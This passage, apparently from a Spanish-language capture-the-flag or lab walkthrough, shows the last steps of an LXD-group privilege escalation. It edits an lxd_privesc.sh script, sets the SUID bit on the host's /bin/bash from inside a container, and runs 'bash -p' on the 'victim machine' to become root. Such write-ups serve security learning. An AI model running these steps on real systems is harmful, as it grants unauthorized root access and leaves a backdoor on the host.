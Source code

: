 1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```